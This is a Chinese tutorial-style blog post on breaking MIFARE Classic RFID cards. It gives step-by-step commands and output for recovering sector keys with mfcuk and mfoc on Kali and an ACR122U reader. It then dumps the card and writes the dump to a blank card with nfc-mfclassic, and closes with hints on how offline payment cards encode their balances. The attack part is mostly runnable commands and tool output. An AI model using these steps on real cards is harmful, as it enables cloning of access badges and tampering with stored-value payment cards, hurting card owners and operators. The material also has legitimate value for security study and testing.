 



# 浅析Mifare1系列RFID卡破解



## M1卡：**MIFARE**是[恩智浦半导体公司](https://zh.wikipedia.org/wiki/恩智浦半导体)（NXP Semiconductors）拥有的一系列[非接触式智能卡](https://zh.wikipedia.org/wiki/非接触式智能卡)和[近傍型卡](https://zh.wikipedia.org/wiki/近傍型卡)技术的注册商标。



MIFARE包括一系列依循[ISO/IEC 14443](https://zh.wikipedia.org/wiki/ISO/IEC_14443)-A规格，利用[无线射频识别](https://zh.wikipedia.org/wiki/無線射頻識別)（频率为13.56[MHz](https://zh.wikipedia.org/wiki/MHz)）的多种非接触式智能卡专有解决方案。这项技术是最早是1994年由[米克朗](https://zh.wikipedia.org/w/index.php?title=米克朗&action=edit&redlink=1)集团（Mikron Group）开发，在1998年转售给[飞利浦电子公司](https://zh.wikipedia.org/wiki/飛利浦)（2006年更名为恩智浦半导体公司）。近年来MIFARE已经普遍在日常生活当中使用，如大众运输系统付费、商店小额消费、门禁安全系统、借书证等。他们**专有的加密算法**（CRYPTO-1）已经被**反向工程**，并在十年前被研究人员打破。 。



## 硬件架构及工作原理

| 区段 | 区块 0     | 区块 1 | 区块 2 | 区块 3         |
| ---- | ---------- | ------ | ------ | -------------- |
| 0    | 制造商代码 | 资料区 | 资料区 | 密钥、访问权限 |
| 1    | 资料区     | 资料区 | 资料区 | 密钥、访问权限 |
| :    | :          | :      | :      | :              |
| 14   | 资料区     | 资料区 | 资料区 | 密钥、访问权限 |
| 15   | 资料区     | 资料区 | 资料区 | 密钥、访问权限 |

来源：[维基百科](https://zh.wikipedia.org/wiki/MIFARE#%E6%94%BB%E6%93%8A%E4%BA%8B%E4%BB%B6)



## 破解过程

### 01.读出数据

![STD019_ACR122](https://downloads.acs.com.hk/images/acr122u_2_1.jpg)

本次使用acr122u在13.56 MHz频段上读取，软件使用基于Linux kali的mfcuk

```
root @ kali：〜＃mfcuk -h
mfcuk-0.3.8
Mifare Classic DarkSide密钥恢复工具-0.3
by Andrei Costin，zveriu@gmail.com，http

: //andreicostin.com用法：
-C-要求与阅读器进行显式连接。如果没有此选项，则不会建立连接，也不会进行恢复
-i mifare.dmp-装入输入mifare_classic_tag类型转储
-I mifare_ext.dmp-装入此工具特定的扩展输入转储，在mifare_classic_tag类型转储之上还有多个字段
-o mifare.dmp-将生成的mifare_classic_tag转储输出到给定文件
-O mifare_ext.dmp-将生成的扩展转储输出到给定文件
-V扇区[：A / B / any_other_alphanum [：fullkey]]-验证指定的密钥部门，-1表示所有部门
    在指定了第一个分号密钥类型之后：A仅验证密钥A，B仅验证密钥B，其他所有内容验证两个密钥
    在指定了第二个分号完整的12个十六进制数字密钥之后-该密钥将覆盖给定扇区的任何已加载的转储密钥）和密钥类型
-R扇区[：A / B / any_other_alphanum]-恢复扇区的密钥，-1表示所有扇区。
    在指定了第一个分号键类型之后：A仅恢复keyA，B仅恢复keyB，其他任何东西都恢复两个键
-U UID-强制特定的UID。如果使用-i加载了转储，则-U将覆盖加载了转储的内存中的
-M标签类型-强制特定标签类型。8是1K，24是4K，32是DESFire
-D-对于标记为要验证的扇区和密钥类型，首先使用默认密钥进行验证（也许您很幸运）
-d key-指定要检查的其他完整的12进制数字默认密钥。多个-d选项可用于更多其他键
-s-SLEEP_AT_FIELD_OFF休眠的毫秒数（默认值：10 ms）
-S-SLEEP_AFTER_FIELD_ON休眠的毫秒数（默认值：50 ms）
-P hex_literals_separated-尝试从a中恢复密钥Proxmark3（基于mifarecrack.c）嗅到的会话。接受几个选项：
    以uid：tag_chal：nr_enc：reader_resp：tag_resp形式的十六进制文字格式的串联字符串
    示例-P 0x5c72325e：0x50829cd6：0xb8671f76：0xe00eefc9：0x4888964f将找到关键字FFFFFFFFFFFF
-p proxmark3_full.log-尝试自行分析日志文件（基于mifarecrack.py），获取选项-P的值并调用它-F-
尝试根据已知卡的数据对输入转储（-i）进行指纹识别格式
-v verbose_level-详细级别（默认为O）

使用示例：
  恢复所有扇区中的所有密钥：
    mfcuk -C -R -1
  以250 ms的时间恢复所有延迟的扇区＃0密钥（延迟可能会提供更多结果）：
    mfcuk -C -R 0 -s 250 -S 250
```

这是kali提供的实例

```
mfcuk -C -R 0：A
```

检索a密钥

```
> mfoc -O source_dump.mfd -k {the key A you retrieved}
The custom key 0xFFFFFFFFFFFF has been added to the default keys
Found Mifare Classic 1k tag
ISO/IEC 14443A (106 kbps) target:
    ATQA (SENS_RES): 00  04  
* UID size: single
* bit frame anticollision supported
       UID (NFCID1): ff ff ff ff 
      SAK (SEL_RES): 08  
* Not compliant with ISO/IEC 14443-4
* Not compliant with ISO/IEC 18092
Fingerprinting based on MIFARE type Identification Procedure:
* MIFARE Classic 1K
* MIFARE Plus (4 Byte UID or 4 Byte RID) 2K, Security level 1
* SmartMX with MIFARE 1K emulation
Other possible matches based on ATQA & SAK values:
Try to authenticate to all sectors with default keys...
Symbols: '.' no key found, '/' A key found, '\' B key found, 'x' both keys found
[Key: FFFFFFFFFFFF] -> [xxxxxxxxxxxxxxxx]
Sector 00 - Found   Key A: FFFFFFFFFFFF Found   Key B: FFFFFFFFFFFF
Sector 01 - Found   Key A: FFFFFFFFFFFF Found   Key B: FFFFFFFFFFFF
Sector 02 - Found   Key A: FFFFFFFFFFFF Found   Key B: FFFFFFFFFFFF
Sector 03 - Found   Key A: FFFFFFFFFFFF Found   Key B: FFFFFFFFFFFF
Sector 04 - Found   Key A: FFFFFFFFFFFF Found   Key B: FFFFFFFFFFFF
Sector 05 - Found   Key A: FFFFFFFFFFFF Found   Key B: FFFFFFFFFFFF
Sector 06 - Found   Key A: FFFFFFFFFFFF Found   Key B: FFFFFFFFFFFF
Sector 07 - Found   Key A: FFFFFFFFFFFF Found   Key B: FFFFFFFFFFFF
Sector 08 - Found   Key A: FFFFFFFFFFFF Found   Key B: FFFFFFFFFFFF
Sector 09 - Found   Key A: FFFFFFFFFFFF Found   Key B: FFFFFFFFFFFF
Sector 10 - Found   Key A: FFFFFFFFFFFF Found   Key B: FFFFFFFFFFFF
Sector 11 - Found   Key A: FFFFFFFFFFFF Found   Key B: FFFFFFFFFFFF
Sector 12 - Found   Key A: FFFFFFFFFFFF Found   Key B: FFFFFFFFFFFF
Sector 13 - Found   Key A: FFFFFFFFFFFF Found   Key B: FFFFFFFFFFFF
Sector 14 - Found   Key A: FFFFFFFFFFFF Found   Key B: FFFFFFFFFFFF
Sector 15 - Found   Key A: FFFFFFFFFFFF Found   Key B: FFFFFFFFFFFF
```

这里应该要安装一下mfoc，但kali也有预装

```
hexdump -C source_dump.mfd
```

使用十六进制格式查看已经转储的文件



### 02.转储数据写卡

改写之前的卡

```
mfoc -O dest.mfd 
mfoc -O dest.mfd -k {the A key} 
```

```
nfc-mfclassic w a dest.mfd source_dump.mfd
NFC reader: ACS / ACR122U PICC Interface opened
Found MIFARE Classic card:
ISO/IEC 14443A (106 kbps) target:
    ATQA (SENS_RES): 00  04  
       UID (NFCID1): 73  98  96  d5  
      SAK (SEL_RES): 08  
Guessing size: seems to be a 1024-byte card
Writing 64 blocks |x
```

即可转储至新RFID卡中。



### 03.数据分析

离线小额支付（水卡等）的金额位一般是十进制对应的16进制数倒位，或对应的二进制数去补码再转化为16进制。基本前后对照都能看出。各个厂商的方式不同，并且有关支付的破解操作有法律风险，故不再深入破解。



## 结语

​        acr122u与kali mfcuk的组合。基本可以实现市面上大多数半加密卡和部分全加密卡的密钥破解，数据读取和复制。而对于部分不在0扇区存储密钥的全加密卡，则需要通过Proxmark3等嗅探得到数据。